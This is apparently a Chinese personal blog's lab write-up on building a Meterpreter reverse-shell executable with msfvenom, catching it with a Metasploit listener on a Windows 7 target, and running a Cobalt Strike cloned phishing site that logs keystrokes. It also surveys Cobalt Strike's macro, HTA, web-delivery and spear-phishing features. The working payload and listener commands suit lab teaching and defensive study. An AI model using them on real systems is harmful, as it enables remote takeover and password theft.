


+++
title= "【攻防实践】MSF恶意程序利用与CS上线"
date= "2026-01-03T13:48:09+08:00"
lastmod= "2026-01-03T13:48:09+08:00"
draft=false
author= "leuco"
description= "【2】制作WIndows恶意软件获取Shell"
keywords= ["msfvenom", "shell", "Windowsl", "CS"]
categories= ["网络空间安全", "攻防实践"]
tags= ["msfvenom", "shell", "Windowsl", "CS"]
math=true
image="CS.png"

+++

# MSF恶意程序利用与CS制作钓鱼网站



## 实践概览

- **名称**：MSF恶意程序利用与CS上线
- **目的**：使用MSFVenom恶意软件获取shell；使用Cobalt Strike制作钓鱼网站并监听键盘
- **时间**：2026年1月3日
- **风险说明**：本实验在完全隔离的虚拟化实验室环境下进行，仅用于教育或授权测试

## MSFVenom

**定义：** msfvenom 是 **Metasploit Framework** 的一部分，它是一个独立的 **攻击载荷生成器**。它取代了旧版的 `msfpayload` 和 `msfencode` 工具，用于创建和编码各种格式的 shellcode 或可执行文件。

**主要功能：**

- **生成载荷：** 可以生成适用于几乎所有操作系统（Windows, Linux, macOS, Android等）和架构（x86, x64, ARM等）的攻击载荷。
- **多种格式：** 输出格式多样，如可执行文件（.exe, .elf）、动态链接库（.dll）、Web脚本（.php, .aspx）、Shell代码（C、Python、Ruby等格式的原始字节）等。
- **编码与规避：** 内置多种编码器（如 `x86/shikata_ga_nai`），可以对生成的载荷进行混淆，以绕过基础的静态杀毒软件（AV）检测。
- **捆绑：** 可以将攻击载荷与一个正常的合法程序（如计算器、PDF阅读器）捆绑在一起，诱骗目标运行。
- **转换格式：** 可以将载荷在不同格式之间转换。

**典型工作流程：**

1. 红队人员决定攻击目标（例如：Windows 10 x64）。

2. 使用 msfvenom 命令生成一个反向 TCP 连接的 Windows 后门：

   ```bash
   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=攻击机 LPORT=4444 -f exe -o payload.exe
   ```

3. 通过社会工程学（如钓鱼邮件）将 `payload.exe` 投递到目标机器。

4. 目标运行后，会在其机器上建立一个与攻击者 Metasploit 监听器（`multi/handler`）的连接。

5. 攻击者获得一个 **Meterpreter** shell，可以进行基本的后期利用。

**特点：**

- **免费且开源。**
- **功能单一但强大**，专注于载荷生成。
- 通常需要与 **Metasploit Framework** 的其他模块（如监听器、利用模块）配合使用。
- 在绕过现代EDR/AV方面能力有限，生成的载荷容易被高级安全软件检测。

## Cobalt Strike

**定义：** Cobalt Strike 是一个 **商业的、综合性的红队和对手模拟平台**。它远不止一个载荷生成器，而是一个集成了 **指挥与控制、钓鱼攻击、横向移动、权限提升、报告生成** 等功能的完整作战系统。

**主要功能：**

1. **高级攻击载荷：**
   - **Beacon：** Cobalt Strike 的核心载荷，是一个高度可定制的、隐蔽的“心跳”代理。支持多种通信协议（HTTP/HTTPS, DNS, SMB）和回调方式。
   - 生成经过高度混淆、签名、或利用各种技术（如进程注入、模块反射式加载）的 Beacon 载荷，以绕过杀毒软件和终端检测与响应（EDR）。
2. **图形化指挥与控制：**
   - 所有上线的被控主机（Beacon）都在一个直观的图形界面中显示，可以分组、打标签。
   - 通过右键菜单或命令，轻松向任何 Beacon 发送指令（文件操作、截图、键盘记录、提权等）。
3. **内网横向移动：**
   - **端口扫描**和**服务发现**。
   - **凭据转储**（从内存中提取密码哈希和票据）。
   - **哈希传递**、**票据传递** 攻击。
   - **SMB Beacon** 用于穿透没有直接外网连接的内部网络节点。
4. **鱼叉式网络钓鱼：**
   - 内置模板和服务器，可以方便地创建和管理钓鱼邮件活动，追踪点击和载荷执行情况。
5. **Malleable C2 配置文件：**
   - 这是 Cobalt Strike 的灵魂功能。允许操作员 **完全自定义 Beacon 的通信模式**（如模拟成 Google、CloudFlare 等合法服务的流量），极大地增强了隐蔽性和对抗网络流量分析的能力。
6. **团队协作：** 支持多个操作员同时连接到一个团队服务器，协同工作。
7. **报告与日志：** 自动记录所有操作，便于生成最终的攻击报告。

**典型工作流程：**

1. 红队启动 **Cobalt Strike 团队服务器**。
2. 操作员使用 **Cobalt Strike 客户端** 连接。
3. 使用 **“攻击”->“生成Payload”** 创建一个高度定制的 Beacon（例如，使用 Malleable C2 配置文件模拟正常流量）。
4. 通过 **鱼叉式钓鱼** 或利用其他漏洞投递 Beacon。
5. 目标上线后，在可视化地图上看到新主机。
6. 操作员通过 Beacon 进行信息收集，利用内置工具进行凭据转储，然后在内网横向移动，逐步控制更多关键资产。

**特点：**

- **商业软件**，价格昂贵，但功能极其强大。
- **高度集成化和自动化**，将红队行动的各个阶段无缝衔接。
- **以隐匿和对抗现代安全防御为核心设计**。
- 是 **高级持续性威胁（APT）模拟** 和 **成熟红队** 的首选工具。

## 环境配置

- **虚拟环境**：VMware Workstation 17 Pro - 17.0.0 build-20800274
- **靶机**：
  - **系统**：Windows 7 Enterprise x64
  - **CPU**：11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz (2.30 GHz)
  - **网络**：LAN（IPv4:10.0.0.17/SubnetMask:255.255.255.0/Gateway:NULL/DNS:NULL）
- **攻击机**：
  - **系统**：Linux kali 6.12.25-amd64
  - **CPU**：11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz (2.30 GHz)
  - **网络**：LAN（IPv4:10.0.0.223/SubnetMask:255.255.255.0/Gateway:NULL/DNS:NULL）

## 实践步骤

### MFS恶意程序利用

#### 使用msfvenom制作恶意软件

```bash
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.223 LPORT=4448 -f exe > Notice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

文件存储于`/root/Notice.exe`

#### 制作监听程序

监听程序的制作过程与[Metasploit持久化后门攻击](https://leuco-yuu.github.io/p/%E6%94%BB%E9%98%B2%E5%AE%9E%E8%B7%B5ms17-010%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#%E5%88%A9%E7%94%A8windows%E6%9C%8D%E5%8A%A1%E6%9C%BA%E5%88%B6%E5%AE%9E%E7%8E%B0%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81)相同：

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.223
LHOST => 10.0.0.223
msf6 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.0.0.223:4448 
```

#### 将恶意程序传输下载到靶机

这里通过[MS17-010漏洞与Metasploit](https://leuco-yuu.github.io/p/%E6%94%BB%E9%98%B2%E5%AE%9E%E8%B7%B5ms17-010%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#metasploit%E6%89%AB%E6%8F%8F%E4%B8%8E%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)实现恶意程序的[upload](https://leuco-yuu.github.io/p/%E6%94%BB%E9%98%B2%E5%AE%9E%E8%B7%B5ms17-010%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#3-%E6%96%87%E4%BB%B6%E7%AA%83%E5%8F%96%E4%B8%8E%E4%B8%8A%E4%BC%A0):

```bash
meterpreter > upload /root/Notice.exe > C:\\
[*] Uploading  : /root/Notice.exe -> C:\Notice.exe
[*] Completed  : /root/Notice.exe -> C:\Notice.exe
```

#### 等待靶机执行恶意程序

监听器获取到用户权限

```bash
[*] Sending stage (177734 bytes) to 10.0.0.17
[*] Meterpreter session 1 opened (10.0.0.223:4448 -> 10.0.0.17:49864) at 2026-01-03 08:00:49 +0000

meterpreter > getuid
Server username: Ankh-PC\Ankh
```

### CS钓鱼网站制作

为了克隆网站，虚拟机需要联网。这里设置靶机和Kali的网络连接模式为NAT模式，两者通过DHCP自动获取IP地址。此时Win7的IP地址为192.168.10.147/24；Kali的IP地址为192.168.10.135/24。两者之间与宿主机相互ping通并可以正常访问互联网

#### Cobalt Strike安装

将[cobalt_strike_4.5.zip](cobalt_strike_4.5.zip)下载至Kali并解压

#### 更改CS读写权限

```bash
┌──(root㉿kali)-[/home/kali/Desktop/Tools/Cobalt Strike]
└─# cd coablt_strike_4.5

┌──(root㉿kali)-[/home/…/Desktop/Tools/Cobalt Strike/coablt_strike_4.5]
└─# chmod 777 *
```

- **chmod** = **ch**ange **mod**e（改变模式）

- **777** = 权限的数字表示法

  - **第一个数字**：文件所有者（owner）的权限

  - **第二个数字**：所属用户组（group）的权限

  - **第三个数字**：其他用户（others）的权限

- 每个数字由三个权限值相加组成：

  - **4** = 读取权限（Read）

  - **2** = 写入权限（Write）

  - **1** = 执行权限（eXecute）

- 777 的具体含义：`7 = 4 + 2 + 1`，即拥有所有权限

  - **所有者**：读 + 写 + 执行（7）

  - **所属组**：读 + 写 + 执行（7）

  - **其他用户**：读 + 写 + 执行（7）

#### 生成Cobalt Strike服务器组

设置服务器IP和密码（CS服务器在kali的50050端口监听），创建组服务器实例

```bash
┌──(root㉿kali)-[/home/…/Desktop/Tools/Cobalt Strike/coablt_strike_4.5]
└─# ./teamserver 192.168.10.135 admin
[*] Will use existing X509 certificate and keystore (for SSL)
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: 7eac4fdf25b2e55d39a7d9fcccc00978b95a7639a78a2c893bd2f6aac3637fb8
[+] Listener: Listener started!
```

#### 打开Cobalt Strike客户端并连接服务器组

```bash
┌──(root㉿kali)-[/home/…/Desktop/Tools/Cobalt Strike/coablt_strike_4.5]
└─# ./cobaltstrike
```

打开Cobal Strike，用刚才设置的密码和IP连接到用户组。Cobalt Strike支持多设备同时登录服务器。


#### 创建监听器


打开监听器选项，点击添加


HTTP地址为Kali地址，HTTP端口为钓鱼网站端口。添加监听器后，CS将在Kali的80端口上持续监听



#### 网站克隆与Web日志




“克隆URL”中填写要伪装的网站，这里只支持HTTP协议。“本地HOST”为本地Kali的IP地址，也是伪装网址的IP地址；“本地端口”为伪装网址的运行端口，与监听器相一致；开启键盘记录


最终访问地址为http://192.168.10.135:80/。由于网络适配器为NAT模式。因此所有NAT连接的虚拟机以及宿主机都可访问该页面。


打开Web日志。

#### 靶机访问钓鱼网站

在Win7的浏览器中访问伪装网址，输入Kali

#### 键盘记录


Web日志中打印Win7的键盘输入。该手段用于获取用户的密码等敏感信息。

### CS菜单功能概览

#### 视图

此菜单主要用于管理和查看在后渗透阶段（Post-Exploitation）收集到的各类数据。

- **应用程序 (Applications)**：显示由“系统分析器（System Profiler）”收集到的目标浏览器信息，包括浏览器版本、Flash版本、Java版本等，帮助你判断目标有哪些可被利用的客户端漏洞。
- **密码凭证 (Credentials)**：这是一个中央数据库，存储所有通过 `hashdump`、`mimikatz` 或钓鱼攻击获取到的用户名、密码、NTLM 哈希及令牌。
- **下载列表 (Downloads)**：记录所有从受控主机下载到 Team Server 的文件。你可以在这里右键将文件保存到本地。
- **事件日志 (Event Log)**：整个团队的“聊天室”和审计中心。记录了谁上线了、执行了什么关键命令，以及团队成员之间的即时消息沟通。
- **键盘记录 (Keystrokes)**：集中展示通过 `keylogger` 命令抓取到的所有目标击键记录。
- **代理转发 (Proxy Pivots)**：管理 SOCKS 代理和反向端口转发。当你想利用受控主机作为跳板攻击内网其他机器时，在这里配置代理信息。
- **屏幕截图 (Screenshots)**：展示所有从 Beacon 发回的屏幕截图。支持缩略图预览，方便快速查看目标当前的操作界面。
- **脚本控制台 (Script Console)**：用于加载和调试 **Aggressor Script**（CS 的自动化脚本语言）。你可以在这里看到脚本运行的输出或错误信息。
- **目标列表 (Targets)**：列出当前网络中所有已知的计算机及其元数据（IP、系统版本等）。你可以通过扫描或导入方式增加目标。
- **Web日志 (Web Log)**：记录 CS 内置 Web 服务器的所有访问请求。包括谁访问了你的钓鱼页面、下载了什么文件。

#### 攻击

该菜单是 CS 的核心功能区，分为载荷生成、Web 渗透和邮件钓鱼三大类。

- **生成后门 (Packages)**

  用于创建各种形式的初始控制载荷（Payload）。

  - **HTA文档**：生成 `.hta` 后缀的 HTML 应用程序。它常通过浏览器下载执行，利用 VBScript 或 JScript 在系统底层运行 Beacon。

  - **Office宏**：生成一段 VBA 代码，你可以将其嵌入 Word 或 Excel 文档中。当受害者点击“启用宏”时，就会触发上线。

  - **Payload生成器**：最基础的工具。它可以将 Beacon 生成各种格式的原始数据（Raw Shellcode），或者生成 C、C#、Java、Python 等语言的源代码供你二次开发。

  - **Windows可执行程序**：生成一个 Staged（分阶段）的 EXE 或 DLL 文件。这种后门体积小，运行时会先连接服务器下载完整的 Beacon。

  - **Windows可执行程序(Stageless)**：生成一个 Stageless（不分阶段）的后门。它包含完整的 Beacon 功能，虽然体积较大，但在复杂的网络环境下更稳定且更难被流量监控发现。

- **Web钓鱼 (Web Drive-by)**

  利用 CS 内置的 Web 服务器进行自动化 Web 攻击。

  - **站点管理 (Manage)**：查看并管理当前所有正在运行的 Web 服务（克隆的页面、托管的文件等）。
  - **网站克隆 (Clone Site)**：输入一个网址（如公司内网登录页），CS 会克隆该页面。你还可以配置它抓取用户输入的表单数据（如账号密码）。
  - **文件托管 (Host File)**：简单的 Web 服务器功能，用于把你的木马或工具挂在网上供目标下载。
  - **Web投递 (Web Delivery)**：提供一种“一键上线”的方案。它生成一个 PowerShell、Python 或 Bitsadmin 命令，只要在目标机器运行这行命令，即可远程下载执行 Beacon。
  - **签名/智能 Applet 攻击**：利用旧版本 Java 的漏洞或诱导用户点击运行 Java 插件。*注意：由于现代浏览器已不再支持 Java 插件，这些功能在实战中已基本过时。*
  - **信息收集 (System Profiler)**：生成一个隐藏的探测链接。当用户点击时，它会静默收集该用户的系统环境信息，并存入“视图 -> 应用程序”中。

- **邮件钓鱼 (Spear Phish)**

  这是一个专门的钓鱼邮件发送平台。

  - 导入邮件模板和目标邮箱列表。
  - 配置 SMTP 发信服务器。
  - 将上述“生成后门”或“Web钓鱼”生成的链接/附件自动注入邮件并群发。
